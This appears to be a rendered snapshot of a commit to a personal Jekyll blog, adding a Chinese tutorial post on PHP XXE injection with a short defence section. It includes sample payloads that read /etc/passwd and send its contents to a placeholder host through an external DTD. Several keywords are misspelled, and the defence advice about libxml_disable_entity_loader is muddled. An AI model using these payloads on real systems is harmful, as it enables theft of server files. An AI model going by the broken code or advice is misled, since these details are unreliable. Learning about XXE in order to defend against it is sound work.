

Before and after one commit to kerno-yep/kerno-yep.github.io, a Jekyll site: the page built from index.html, in a window 1280 px wide and 1400 px high, scrolled down 219 px. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; nearby versions of some CDN libraries; the list of posts is cut into pages by our own code; comment, search, counter and statistics services are not loaded; some of the changed text lies outside the part shown.

Commit message:
modified:   "_posts/2022-09-14-linux\345\272\224\346\200\245.md" 	new file:   _posts/2022-09-30-XXE.md 	modified:   tips.md

````diff
--- /dev/null
+++ b/_posts/2022-09-30-XXE.md
@@ -0,0 +1,51 @@
+
+
+
+
+### PHP_XXE
+
+****
+
+#### **XXE**(XML External Entity Injection)
+
+外部实体注入，当web服务器解析XML文件时允许外部实体的引入引起的漏洞，在php中当`libxml库版本<=2.9.0`时，默认开启引用外部实体，在phpinfo界面可查看，此漏洞与php版本无关
+
+xml对于大小写敏感，xml中不允许出现%,<,>等等，要使用的话必须要经过转义,xml只能有一个根节点
+
+#### DTD(DocumentType Definition)
+
+文档类型定义,是以dtd为后缀的自定义约束文件，DTD定义了XML文档内容的结构，保证XML以一致的格式存储数据，XML允许用户创建自己的DTD约束
+
+#### XML格式
+
+```xml-dtd
+#内部实体调用
+<?xml version="1.0" encoding="utf-8" ?> #xml定义
+<!DOCTYPE evil[ #内部DTD
+    <!ELEMENT evil ANY> #声明约束元素，内容随意
+    <!ENTITY xxe YSYTEM "file:///etc/passwd"> #内部实体
+]>
+<test>
+<name>&xxe;</name> #对实体的引用
+</test>
+
+#外部实体调用
+<!ENTITY % payload SYSTEM "flie:///etc/passwd">
+<!ENTITY % test STSTEM "<!ENTITY &#37; pass SYSTEM 'http://x.x.x.x/index.php?test=%payload'>">
+ #这是一个叫test.dtd的外部dtd文件
+<?xml version="1.0" encoding="utf-8"?>
+<!DOCTYPE test[
+	<!ENTITY % cmd "http://x.x.x.x/test.dtd">
+	%cmd;
+	%payload;
+	%test;
+]>
+
+```
+
+
+
+#### php_XXE防御
+
+禁用`libxml_disable_entity_loader()`函数
+升级libxml库版本>2.9.0
````
Also changed, not shown: _posts/2022-09-14-linux应急.md (+11 -0 lines), tips.md (+4 -0 lines).
